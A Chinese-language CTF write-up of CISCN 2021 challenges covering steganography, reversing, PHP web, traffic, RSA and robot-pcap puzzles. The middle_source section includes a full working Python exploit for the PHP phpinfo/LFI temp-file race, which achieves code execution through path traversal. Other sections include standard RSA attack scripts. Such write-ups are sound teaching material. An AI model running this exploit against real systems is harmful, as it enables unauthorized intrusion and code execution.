




# CISCN writeup

by r00t-2021

## 场景实操开场卷

## Running pixels

奇怪的GIF，把每一帧提出来，能明显地看到10帧一循环。挑出最奇怪的第9、19、29……帧拖进stegsolve，发现有一个落单的像素点：



写脚本提取之，发现大多数帧上都有落单的像素点，颜色固定为`(233, 233, 233)`。所有像素点拼在一起，构成若干字母和数字：


顺序由像素点构成字母数字的过程决定，需要逐帧绘制过程。脚本如下：

```python
#!/usr/bin/env python3

from PIL import Image

found_px = []

#for i in range(9, 382, 9):
for i in range(382):
	img = Image.open('frames/frame%03d.png' % i).convert('RGB')
	imgdata = img.load()
	size = img.size
	tgt = (233, 233, 233)
	for y in range(size[1]):
		for x in range(size[0]):
			if imgdata[x, y] == tgt:
				found_px.append((i, (x, y), imgdata[x, y]))
				break
	pass

print(len(found_px))
print(found_px)

out = Image.new('RGB', (400, 400), color = 'black')
for i, xy, color in found_px:
	out.putpixel(xy, color)
	out.save('outs/out%03d.png' % i)

out.save('out.png')
out.close()

last_xy = (0, 0)
out = Image.new('RGB', (400, 400), color = 'black')
for i, xy, color in found_px:
	out.putpixel(xy, color)
	if (xy[0] - last_xy[0]) ** 2 + (xy[1] - last_xy[1]) ** 2 >= 30:
		out.transpose(Image.FLIP_LEFT_RIGHT).transpose(Image.ROTATE_90).save('outs2/out%03d.png' % i)
	last_xy = xy

out.transpose(Image.FLIP_LEFT_RIGHT).transpose(Image.ROTATE_90).save('outs2/outlast.png')
out.close()
```

`CISCN{12504d0f-9de1-4b00-87a5-a5fdd0986a00}`

## glass

扑面而来的JNI，好在没有太乱的东西。前面几个对缓冲区的处理越看越像RC4，索性当作RC4理解：

```c
for ( i = 0; i != 256; ++i )
{
	v3[i] = i;
	sub_126C(i, v5); // 取模运算，结果存R1
	v12[i] = v4[v7]; // v7 == R1
}
v8 = 0;
v9 = 0;
while ( v8 != 256 )
{
	v10 = (unsigned __int8)v3[v8];
	v9 = (v9 + v10 + (unsigned __int8)v12[v8]) % 256;
	v3[v8++] = v3[v9];
	v3[v9] = v10;
}
```

算完RC4还有一个函数，分块异或外加写得及其花哨的逐字节异或：

```c
for ( j = 0; j < a2; j += a4 )                // looped xor
{
	for ( k = 0; (a4 & ~(a4 >> 31)) != k && j + k < a2; ++k )// for(k = 0; a4 != k && (j + k) < a2; k++)
		*(_BYTE *)(result + k) ^= *(_BYTE *)(a3 + k);
	result += a4;
}
```

写脚本跑出flag即可：

```python
#!/usr/bin/env python3

from Crypto.Cipher import ARC4

key = b'12345678'
target = [
    0xA3, 0x1A, 0xE3, 0x69, 0x2F, 0xBB, 0x1A, 0x84, 0x65, 0xC2, 
    0xAD, 0xAD, 0x9E, 0x96, 0x05, 0x02, 0x1F, 0x8E, 0x36, 0x4F, 
    0xE1, 0xEB, 0xAF, 0xF0, 0xEA, 0xC4, 0xA8, 0x2D, 0x42, 0xC7, 
    0x6E, 0x3F, 0xB0, 0xD3, 0xCC, 0x78, 0xF9, 0x98, 0x3F
]

out = bytearray([x ^ key[i % len(key)] for i, x in enumerate(target)])
for i in range(0, len(out), 3):
    real_1 = out[i + 1] ^ out[i + 0]
    real_2 = out[i + 2] ^ real_1
    real_0 = out[i + 0] ^ real_2
    out[i + 0] = real_0
    out[i + 1] = real_1
    out[i + 2] = real_2

print(ARC4.new(key).decrypt(out))
```

`CISCN{6654d84617f627c88846c172e0f4d46c}`

## easy_source

发现存在一个`.index.php.swo`，打开之后发现提示了部分源码，源码中设置了一个User类，存在大量的方法

```php
<?php
class User
{
    private static $c = 0;

    function a()
    {
        return ++self::$c;
    }

    function b()
    {
        return ++self::$c;
    }

    function c()
    {
        return ++self::$c;
    }
```

猜测User类中的方法可能隐藏了信息，所以使用`ReflectionMethod`遍历获取所有方法的信息，最后在q方法的@access注解中，发现了flag

```php
/**
     * Increment counter
     *
     * @final
     * @static
     * @access  publicCISCN{2CxzP-Yuu3n-3nfxN-hwB37-trDND-}
     * @return  int
     */
Method [ <user> public method q ] {
  @@ /var/www/html/index.php 207 - 210
}
```

## tiny traffic

打开流量包，过滤HTTP协议，在`192.168.2.193`发现了flag_wrapper、test、secret，flag_wrapper为CISCN{}，test和secret是被Brotli压缩的数据，使用python进行解压缩。发现test为proto3的数据定义，使用`protoc --python_out=. test.proto`生成对应的python结构文件，编写脚本对secret进行解码

```python
from test_pb2 import PBResponse

f = open("secret.pb", "rb")
resp = PBResponse()
resp.ParseFromString(f.read())
print(resp)
f.close()
```

输出反序列化之后的结构

```
code: 200
flag_part_convert_to_hex_plz: 15100450
dataList {
  flag_part: "e2345"
  junk_data: "7af2c"
}
dataList {
  flag_part: "7889b0"
  junk_data: "82bc0"
}
flag_part_plz_convert_to_hex: 16453958
flag_last_part: "d172a38dc"
```

根据结构指示拼接成flag:CISCN{e66a22e23457889b0fb1146d172a38dc}

## 场景实操二阶卷

## middle_source

在主页中列出了源码，存在一个文件包含漏洞

```php
<?php
    highlight_file(__FILE__);
    echo "your flag is in some file in /etc ";
    $fielf=$_POST["field"];
    $cf="/tmp/app_auth/cfile/".$_POST['cf'];
    
    if(file_exists($cf)){
        include $cf;
        echo $$field;
        exit;
    }
    else{
        echo "";
        exit;
    }
?> your flag is in some file in /etc
```

在.listing文件列出了当前目录的文件，存在一个`/you_can_seeeeeeee_me.php`文件，访问之后发现是phpinfo文件，与文件包含组合利用，包含上传的临时文件，可造成代码执行，枚举/etc目录中的文件

```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php var_dump(scandir('/etc'));?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /you_can_seeeeeeee_me.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""POST /index.php HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Content-Type: application/x-www-form-urlencoded
Host: %s\r
Content-Length: %s\r
\r
%s
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    fn = 'cf=/../../../../../../../' + fn
    s2.send(lfireq % (host,len(fn),fn))
    d = s2.recv(4096)
    s.close()
    s2.close()
    #print(d)

    if d.find(tag) != -1:
        print(d)
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)

    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()

if __name__=="__main__":
    main()
```

在`/etc/fcbbfhbfbf/fhgedheeia/bdedgcecje/bhaabhejid/ecfajfcgba/fl444444g`，找到了flag：CISCN{GlWGe-8agDv-a6Gst-CShBt-32Vl0-}

## baby_bc

面对奇怪的`bc`文件一头雾水。一顿好找才发现这是LLVM生成的中间码文件，可以向下继续编译到机器码。`clang`编译之，拖进IDA。

程序里满是二维数组（`map[5][5]`、`row[5][4]`、`col[4][5]`），输入被填入`map`，要求满足如下条件：

- 不得覆盖`map`中原有的数字（对应位置用`0`代替）
- `map`每行、每列不得出现重复数字
- 满足`row`中定义的水平相邻两数字的大小关系
- 满足`col`中定义的竖直相邻两数字的大小关系
- 数字范围限定为`[1, 5]`（原先为`[0, 5]`导致出现多解）

规则放到一起，变成了数学题。数学菜鸡运气还可以，试了半个小时试出来了。



`CISCN{8a04b4597ad08b83211d3adfa1f61431}`

## little_evil

……做到崩溃的五层壳子。

拿到程序，14M的ELF，拖进IDA都卡的要死。突然顿悟，14M根本不是正常程序可能的大小，遂关掉IDA，7-zip文件分析，发现里面嵌着个squashfs打包的rootfs（这什么神奇技术）。

翻一翻，发现里面除了一个ruby环境之外啥也没有。找到了主程序`__enclose_io_memfs__/local/out.rb`，拖出来打开一看，好的，有混淆那味了：

```ruby
l1lll;lIlI;ll1l1;l1lI;l11I;l1lll;llI1l;lIlll;l11IlI;l11I;l1lll;lIlll;llI1l;lIlI;l11I;l1lll;llIl;l1lI;lIlll;l11I;l1lll;llI1l;l1IIII;lIlll;l11I;l1lll;llIl;l1lI;lIlll;l11I;l1lll;llIl;l1lI;lIlll;l11I;l1lll;llIl;l1lI;lIlll;l11I;l1lll;llIl;l1lI;lIlll;l11I;l1lll;l1lI;ll1l1;l1l111;l11I;l1lll;
```

捋一捋混淆代码，前面都是在构造字符串，最后一条指令用`send()`执行函数。修改代码加个`puts`，得到解混淆后的（下一层混淆的）代码。

同样的混淆还有一层。解开后代码可读性“高了一点”：

```ruby
begin $_=$$/$$;@_=$_+$_;$-_=$_-@_
$__=->_{_==[]||_==''?$.:$_+$__[_[$_..$-_]]}
@__=->_,&__{_==[]?[]:[__[_[$.]]]+@__[_[$_..$-_],&__]}
```

但是注意到后面有一串奇奇怪怪的数字，还有一个疑似switch遍历数字执行操作。嗯，好，是个VM。分析来分析去，顿悟，这8个opcode刚好对应brainfuck的八种操作。将opcode翻译成brainfuck，得到：

```
>>[-]>[-]<>++++++++[<+++++++++>-]<+.>++++++[<++++++>-]<+.++.+++++.-.>+++++++[<-------->-]<--.[-]+><>[-]<<[-]>[>+<<+>-]>[<+>-]<><[-]><,>[-]>[-]+++++++[<+++++++++++>-]<><<>[<->-]<[>>[-]><>[-]<<<<[-]>>>[>+<<<<+>>>-]>[<+>-]<><<<[-]][-]><,>[-]>[-]++++++[<+++++++++>-]<-><<>[<->-]<[>>[-]><>[-]<<<<[-]>>>[>+<<<<+>>>-]>[<+>-]<><<<[-]][-]><,>[-]>[-]++++++++[<+++++++++++>-]<+><<>[<->-]<[>>[-]><>[-]<<<<[-]>>>[>+<<<<+>>>-]>[<+>-]<><<<[-]][-]><,>[-]>[-]++++++++[<++++++++++++>-]<+><<>[<->-]<[>>[-]><>[-]<<<<[-]>>>[>+<<<<+>>>-]>[<+>-]<><<<[-]][-]><,>[-]>[-]+++++[<+++++++++++>-]<><<>[<->-]<[>>[-]><>[-]<<<<[-]>>>[>+<<<<+>>>-]>[<+>-]<><<<[-]][-]>[-]<<[>+>+<<-]>>[<<+>>-]<[>>[-]>[-]<>++++++++[<++++++++++>-]<-.----.<<[-]]<<
```

分析这东西更废脑子。索性找了个[Brainfuck到C的转译器](https://gist.github.com/Ricket/939687)，`gcc -O3`编译之，拖进IDA。输入就出来了：

```c
v7 = getc(v6) - 'M';
// ...
v8 = getc(stdin) - '5';
// ...
v9 = getc(stdin) - 'Y';
// ...
v10 = getc(stdin) - 'a';
// ...
v11 = getc(stdin) - '7';
```

md5之得到flag。

`CISCN{bd5658f44db57f5a1580e5444e5849ce}`

## alice_bob

继续一头雾水。拿第一行的前几个字节上网搜，发现了若干和GMS与短信有关的信息。继续找，确定数据是PDU编码，还找到了[解码网站](http://www.sendsms.cn/pdu/)。魔改网页JS批量解码，前几条消息透露了flag的第一部分：

```
SMSC#
Receipient:+8615030442000
Validity:Rel 4d 
TP_PID:00
TP_DCS:00
TP_DCS-popis:Uncompressed Text
No class
Alphabet:Default

hello,bob!what is the flag?
Length:27
---
SMSC#
Receipient:+10086
Validity:Not Present
TP_PID:00
TP_DCS:00
TP_DCS-popis:Uncompressed Text
No class
Alphabet:Default

the first part of the flag is the first 8 digits of your phone number
Length:69
```

后面则是大段的十六进制。提取出来，发现PNG文件头，但是数据全部错乱。突然发现十六进制的包都带有时间戳，遂按时间戳排序，得到图片。


显然图片长宽是错的，010 Editor也在抱怨IHDR CRC有误。找脚本爆破长宽，得到flag后半截。

```python
import zlib
import struct

filename = 'save.png'
with open(filename, 'rb') as f:
    all_b = f.read()
    crc32key = int(all_b[29:33].hex(),16)
    data = bytearray(all_b[12:29])
    n = 4095
    for w in range(n):
        width = bytearray(struct.pack('>i', w))
        for h in range(n):
            height = bytearray(struct.pack('>i', h))
            for x in range(4):
                data[x+4] = width[x]
                data[x+8] = height[x]
            crc32result = zlib.crc32(data)
            if crc32result == crc32key:
                print("width =", width)
                print("height =", height)
                exit(0)
```



注意这个手写的UUID，分隔符用的是下划线。

`CISCN{15030442_b586_4c9e_b436_26def12293e4}`

## 场景实操冲刺卷

##  RSA

flag分为三段，用了三种RSA攻击方式，分别为小公钥指数攻击，共模攻击，Factoring with high bits known攻击

小公钥指数攻击：


```python
#!/usr/bin/python
#coding:utf-8
#小明文攻击   
#适用情况:e较小,一般为3
#公钥e很小，明文m也不大的话，于是m^e=k*n+m 中的的k值很小甚至为0，爆破k或直接开三次方即可。
      
import gmpy2
import binascii
import libnum
import time
from Crypto.Util.number import long_to_bytes

n=123814470394550598363280518848914546938137731026777975885846733672494493975703069760053867471836249473290828799962586855892685902902050630018312939010564945676699712246249820341712155938398068732866646422826619477180434858148938235662092482058999079105450136181685141895955574548671667320167741641072330259009   
e=3    
res=0   #res是m  
c=19105765285510667553313898813498220212421177527647187802549913914263968945493144633390670605116251064550364704789358830072133349108808799075021540479815182657667763617178044110939458834654922540704196330451979349353031578518479199454480458137984734402248011464467312753683234543319955893
# c=int(open('flag.enc','rb').read().encode('hex'),16)    
print(time.asctime())
for k in range(200000000):    
    if gmpy2.iroot(c+n*k,3)[1]==1:    
        res=gmpy2.iroot(c+n*k,3)[0]    
        print(k,res)    
        print(long_to_bytes(res))
        print(time.asctime())
        break   
```

共模攻击：
```python
#!/usr/bin/python
#coding:utf-8

import gmpy2
from Crypto.Util.number import long_to_bytes

e1 = 17
e2 = 65537
n = 111381961169589927896512557754289420474877632607334685306667977794938824018345795836303161492076539375959731633270626091498843936401996648820451019811592594528673182109109991384472979198906744569181673282663323892346854520052840694924830064546269187849702880332522636682366270177489467478933966884097824069977
c1=54995751387258798791895413216172284653407054079765769704170763023830130981480272943338445245689293729308200574217959018462512790523622252479258419498858307898118907076773470253533344877959508766285730509067829684427375759345623701605997067135659404296663877453758701010726561824951602615501078818914410959610
c2=91290935267458356541959327381220067466104890455391103989639822855753797805354139741959957951983943146108552762756444475545250343766798220348240377590112854890482375744876016191773471853704014735936608436210153669829454288199838827646402742554134017280213707222338496271289894681312606239512924842845268366950


_, r, s = gmpy2.gcdext(e1, e2)

m = pow(c1, r, n) * pow(c2, s, n) % n
print(m)
print(long_to_bytes(m))
```
Factoring with high bits known:
```python
p = 7117286695925472918001071846973900342640107770214858928188419765628151478620236042882657992902 <<200
n = 113432930155033263769270712825121761080813952100666693606866355917116416984149165507231925180593860836255402950358327422447359200689537217528547623691586008952619063846801829802637448874451228957635707553980210685985215887107300416969549087293746310593988908287181025770739538992559714587375763131132963783147

kbits = 200
PR.<x> = PolynomialRing(Zmod(n))
f = x + p
x0 = f.small_roots(X=2^kbits, beta=0.4)[0]
print "x: %s" %hex(int(x0))
p = p+x0
print "p: ", hex(int(p))
assert n % p == 0
q = n/int(p)
print "q: ", hex(int(q))

```

exp.py

```python
import hashlib
from Crypto.Util.number import long_to_bytes,bytes_to_long,getPrime

msg1=long_to_bytes(267334379257781603687613466720913534310764480084016847281446486946801530200295563483353634338157)

msg2=long_to_bytes(4193305853284549103821195807609492624095031428085219879448342104337322945001387680236011960472296815293233144303730273979905837762067652913308898433728800864776794638198055607422503065410595894676740531680367227696622352026247676452540064020322619036125381146346603655445487695574824919137)

msg3=long_to_bytes(978430871477569051989776547659020359721056838635797362474311886436116962354292851181720060000979143571198378856012391742078510586927376783797757539078239088349758644144812898155106623543650953940606543822567423130350207207895380499638001151443841997176299548692737056724423631882)
msg=msg1+msg2+msg3

print(hashlib.md5(msg).hexdigest()) 

```

输出：3943e8843a19149497956901e5d98639

flag为:CISCN{3943e8843a19149497956901e5d98639}

## robot

`Robot.rspag`是Robot Studio的工程，但是这个软件太大了不想装。直接去看pcap，过滤主机发给机器人的数据（因为绘图坐标一定是主机发过去的），翻一翻，大喜：

```
.......]p~...............D .SET./127.0.0.1/RAPID/T_ROB1/Module1/tgPos{57}.Value.[208,46,0]...
.......]p................D .SET./127.0.0.1/RAPID/T_ROB1/Module1/tgPos{58}.Value.[208,48,0]...
```

grep提之，规律跃然于屏幕上：

```
$ strings cap.pcapng | grep -A 2 "tgPos"
0 -1 -SymTyp 112 -Source 255 -RegExp "^tgPos$" -URL RAPID/T_ROB1/Module1 -Output 15
15;     1;     1;1;#2;tgPos;RAPID/T_ROB1/Module1/tgPos;PER;1;1;0;0;RAPID/pos;pos;1;0;0;1;500;
/127.0.0.1/
Mode
--
/127.0.0.1/RAPID/T_ROB1/Module1/tgPos{1}
Value
[27,36,0]
--
/127.0.0.1/RAPID/T_ROB1/Module1/tgPos{2}
Value
[28,35,0]
--
/127.0.0.1/RAPID/T_ROB1/Module1/tgPos{3}
Value
[29,35,0]
--
...
--
/127.0.0.1/RAPID/T_ROB1/Module1/tgPos{109}
Value
[71,44,0]
--
/127.0.0.1/RAPID/T_ROB1/Module1/tgPos{110}
Value
[71,44,-10]
--
/127.0.0.1/RAPID/T_ROB1/Module1/tgPos{1}
Value
[125,23,0]
--
/127.0.0.1/RAPID/T_ROB1/Module1/tgPos{2}
Value
[125,23,0]
--
```

python turtle画之，过一遍md5得到flag：

```python
#!/usr/bin/env python3

import turtle

with open('tgPos.log', 'r') as f:
	points = f.read().split('\n--\n')[1 : ]

segments = []
for point in points:
	s = point.split('\n')
	segments.append((int(s[0].split('{')[1][ : -1]), tuple(eval(s[2])[ : 2]), eval(s[2])[2]))

print(segments)

turtle.setup(width = 800, height = 600)

nextup = False
for i, xy, z in segments:
	print(i, xy, z)
	if nextup:
		nextup = False
		turtle.penup()
	else:
		turtle.pendown()
	#turtle.goto(*xy)
	turtle.goto(xy[0], -xy[1])
	if z < 0:
		nextup = True

turtle.mainloop()
```



`CISCN{d4f1fb80bc11ffd722861367747c0f10}`

